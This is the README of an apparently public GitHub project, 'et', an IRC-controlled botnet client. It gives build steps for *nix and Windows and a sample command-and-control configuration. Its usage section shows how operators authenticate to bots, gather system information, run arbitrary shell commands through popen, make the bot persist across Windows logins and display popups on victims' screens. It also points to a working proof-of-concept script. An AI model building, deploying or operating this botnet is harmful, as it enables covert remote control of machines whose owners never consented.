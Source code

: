 et - the extraterrestrial botnet
===

### What is it?
`et` is a dumb client to an IRC command-and-control server.

When activated, it "phones home" and awaits instructions from members of an IRC channel.

It can be instructed to retrieve system information and execute commands, among other things.

### Compilation

**IMPORTANT**: Many binary size reduction methods are not applied by default during *nix builds due to the wide variety of utilities/flags that provide that
functionality on different systems. For example, standard symbol stripping (-s) is not applied because OS X no longer uses (-s) to strip symbols.
To add your own size-optimization flags, either edit the makefile or feed them in by assigning to `LDFLAGS_NIX` while calling `make`.
In addition, on Windows, you can try using a third-party tool like [UPX](http://upx.sourceforge.net/) to further reduce executable size.

#### On *nix systems (Linux, BSD, OS X):
```bash
$ git clone https://github.com/woodruffw/et && cd et
$ make nix # compiles et in ./bin
```

#### On Windows:
Building on Windows requries `make` and `gcc`, both of which can be obtained through the [MinGW](http://www.mingw.org/) project.

Download the tarball, extract it somewhere, and run `mingw32-make` inside of that directory in CMD.exe. The `et.exe` binary will be left in "bin".


**IMPORTANT**: Do not actually run the resulting `et` binary, as it *WILL* open your computer to attack.

### Configuration

Many of `et`'s features can be configured in the *cnc_info.h* file under *./src*.

For example:
```C
#define IRC_SERVER "irc.example.com"
#define IRC_PORT 6667
#define IRC_CHANNEL "#yourchannel"
#define IRC_REPORT "hello!"
#define IRC_AUTH "super secret password"
```

Any changes made require recompilation.

### Usage
Controlling the `et` bots from the IRC server is very simple.

When each bot connects, it sends out a channel-wide message of the format:
```
et0000000: et0000000 phoning home
```

From that point on, the bot is ready to receive commands. There are a few built-in commands:
* `auth <password>` - Requests authorization to control the bot. If the password matches `IRC_AUTH` in *cnc_info.h*, authorization is granted.
* `deauth` - Deauthorizes control of the bot unconditionally. Once deauthorized, the bot may not execute any command but `auth`.
* `info` - Outputs a digest of system information. Supplied by `uname(3)` on Unix and Linux and `GetVersionEx`/`GetUserName` on Windows.
* `popup <message>` - **CURRENTLY WINDOWS ONLY**. Display a popup message on the client's screen.
* `persist` - **CURRENTLY WINDOWS ONLY**. Ensures that the `et` executable, if killed, will restart on the next login. 
* `depersist` - **CURRENTLY WINDOWS ONLY**. Does the opposite of `persist`, removing `et`'s persistence after logout.
* `kill` - Disconnects the bot from the IRC server. Unless scheduled otherwise on the system, the bot will never reconnect.

Aside from these four commands, all other commands passed to an `et` are passed directly to `popen(3)` (`_popen()` on Windows).

By default `deauth`, `info`, `kill`, and all other commands are restricted until the bot is authorized with `auth`.

Some examples, all from the IRC prompt:
```
et0000000: et0000000 phoning home
/msg et0000000 auth et-phone-home
et0000000: Successfully authorized. et0000000 listening.
/msg et0000000 info
et0000000: [some information]
/msg et0000000 pwd
et0000000: [the current working directory]
/msg et0000000 popup hello, i'm controlling your computer
/msg et0000000 kill
*et0000000 has quit ()
```

Currently, output from system commands is limited to approximately 512 characters. For more information on IRC's limitations, read [RFC 2812](http://tools.ietf.org/rfc/rfc2812.txt).

**IMPORTANT**: Because I tested `et` with ngIRCd, I made a few assumptions about common server characteristics. For example, `et` will always respond to a `PING` with
a `PONG` message containing the server's name, simply because that's the most common `PING`/`PONG` message. If you encounter timeout issues, it's probably because your IRC server
sends a different `PING` message.

### Proof of Concept
The original PoC Python script can be found under *./src/poc/et.py*. Like the actual version, it does work and *WILL* expose your machine.

### Theoretical Limits
Because the IRC protocol limits nicks to 9 characters, only so many `et`s can operate within a single channel.

By default, the first two characters of an `et`'s nick will always be 'et,' meaning that at most 10 million `et`s can exist within a channel.
Furthermore, because I got lazy with the Windows version, the ID on Windows machines can only be in the range [0, (32768 << 8)] for a total number of 8,388,609 possible IDs on Windows.
Of course, because the trailing numbers are pseudorandom and not sequential, the actual point of collision is likely to be much lower than 10 million (or 8,388,609 for that matter).
On the other hand, `et` can be configured to "phone home" to other servers and channels, making the limit less relevant in practice.

### TODO
* Reduce binary size
* Prevent Windows CMD popups
* Add more built-in commands

### Contributing

`et` is licensed under the MIT licence. 

Please feel free to issue merge requests, even for small things. I appreciate all contributions.
